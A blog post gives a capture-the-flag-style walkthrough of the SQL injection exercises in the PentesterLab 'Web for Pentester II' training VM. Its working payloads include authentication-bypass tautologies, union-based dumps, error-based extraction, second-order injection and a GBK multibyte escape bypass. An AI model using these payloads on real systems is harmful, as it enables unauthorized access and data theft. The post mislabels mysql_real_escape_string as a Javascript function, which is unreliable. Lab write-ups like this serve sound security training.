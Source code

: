 ```yaml
---
layout: post
title: Web for Pentester II - SQL Injection
date: 2015-08-20 
author: Simon
comments: true
summary: Solutions to SQL injection questions from Web for Pentester II Penterster Lab
categories: security
tags: 
 - Web penetration
 - SQL injection
---
```


#  Background 
SQL injection is a type of vulnerability of many databases. It is often possible to insert your own sql query into the origin sql query to bypass the authentication page or to get sensitive information. There are a bunch of good examples for web penetration testing in [Pentester Lab](http://pentesterlab.com). In this article, we will go through each one in the tutorial [Web for Pentester II](https://pentesterlab.com/exercises/web_for_pentester_II). Make sure you allocate >= 1 GB RAM, and setup host-only network. Open the page with the IP of the VM (get the IP using nmap or type ifconfig in the VM)

#  Solutions 
### Example 1
This is the most basic injection code. Type the following in the username. As the course of pentester lab stated, password is usually hashed or encrypted, so it is better to perform this in username.
{% highlight sql %}
' or 1=1 #
{% endhighlight %}
Note that assume the original query is like
{% highlight sql%}
SELECT * FROM users WHERE username='******' AND password='******'
{% endhighlight %}
single quote `'` can be used to escape from string, and insert query. After we send the request, the query would be like 
{% highlight sql%}
SELECT * FROM users WHERE username='' or 1=1 # ' AND password=''
{% endhighlight %}
The WHERE clause became always true, and things after # was commented out, so then the server got a result, and we are done.


### Example 2
In this example, the number of users returned is restricted.
{% highlight sql %}
' or 1=1 LIMIT 1 #
{%endhighlight%}


### Example 3
In this example, single quotes are removed in the query, but it's still breakable by using escape `\`. The query will become like
{% highlight sql %}
SELECT * FROM users WHERE username='\' AND password=' or 1=1 #'
{%endhighlight%}
The second single quote is turned to a character by backslash. The actual username in the query is "\' AND password=". The string is closed by the first quote of password.

### Example 4
There is no text box, so look at the address bar. 
{% highlight sql %}
.../example4/?req=username%3d%27hacker%27
{% endhighlight  %}
Decode the url, 
{% highlight sql %}
username='hacker'
{% endhighlight %}
This gives the server a username, and this string is likely to be in WHERE clause. To confirm this, change the url to
{% highlight sql %}
.../example4/?req=username='
{% endhighlight %}
This gives you an sql query error, which shows the actual query. The entire string after "req=" is in WHERE clause. Chagne the url to this.
{% highlight sql %}
.../example4/?req=' or 1=1 #
{% endhighlight %}

### Example 5
This is a union-based SQL injection.
{%highlight sql%}
.../example5/?limit=3 union all select * from users
{%endhighlight%}

### Example 6
Change the url to
{%highlight sql%}
.../example5/?group=username union all select * from users
{%endhighlight%}
or simple delete group
{%highlight sql%}
.../example5/?
{%endhighlight%}
This is a dump example using group by.


### Example 7
Pentester lab provides an error-pone statement, 
{%highlight sql%}
extractvalue('%3Cxml%3E',concat(%22/%22,(select%20version())))
{%endhighlight%}
but I prefer to just use a single quote here, which has the same result on web for pentester II pages.
With an error message displayed, you can easily see the structure of the query.
![errmsg](/img/2015-08-20-sql-injection-web-for-pentester-II-1.png){:width="600px"} 
Same as example 6, delete suffix or use union-based injection to display all users.


### Example 8
Create a few users randomly first. Create a new user named the following:
{%highlight sql%}
' union all select * from users where username='whatever_you_want_to_check' #
or 
' union all select * from users where id='whichever_you_want_to_check' #
{%endhighlight%}
With this user, you may check any user you want. The vulnerability of this one is that the value coming crom database is usually seen as trustable.


### Example 9
This page uses a Javascript function  mysql_real_escape_string(), which removes any escape that you enter in. However, this function does not work properly with GBK character. with a GBK character, followed by a single quote, this quote will not be removed. Enter the following to bypass the authentication.
{%highlight sql%}
呵' or 1=1 #
{%endhighlight%}



